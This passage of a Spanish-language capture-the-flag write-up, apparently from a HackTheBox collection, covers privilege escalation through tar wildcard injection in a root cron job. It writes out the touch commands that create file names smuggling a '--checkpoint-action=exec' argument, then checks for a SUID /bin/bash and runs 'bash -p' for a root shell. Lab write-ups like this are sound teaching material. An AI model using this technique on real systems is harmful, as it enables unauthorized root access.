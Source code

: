 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
El echo es que si el commando de la tarea cron tiene el asterisco y que ficheros tienen nombres como \texttt{-\/-checkpoint=1} y \texttt{-\/-checkpoint-action=exec/bin/sh},
en vez de copiarlos, los utilizaria como argumentos del proprio commando tar.

\begin{Shaded}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{touch}\NormalTok{ -- }\StringTok{'--checkpoint=1'}
\FunctionTok{touch}\NormalTok{ -- }\StringTok{'--checkpoint-action=exec=sh privesc'}
\end{Highlighting}
\end{Shaded}

Ya esta esperamos hasta el proximo run de la tarea cron.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{watch}\NormalTok{ -n 1 ls -l /bin/bash -d}
\end{Highlighting}
\end{Shaded}

Cuando vemos que la /bin/bash tiene el \texttt{s} de SUID podemos convertirnos en root

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\end{Highlighting}
\end{Shaded}

\hypertarget{sneakymailer}{%
\chapter*{SneakyMailer}\label{sneakymailer}}

\hypertarget{introduccion-4}{%
\section*{Introduccion}\label{introduccion-4}}
\end{document}
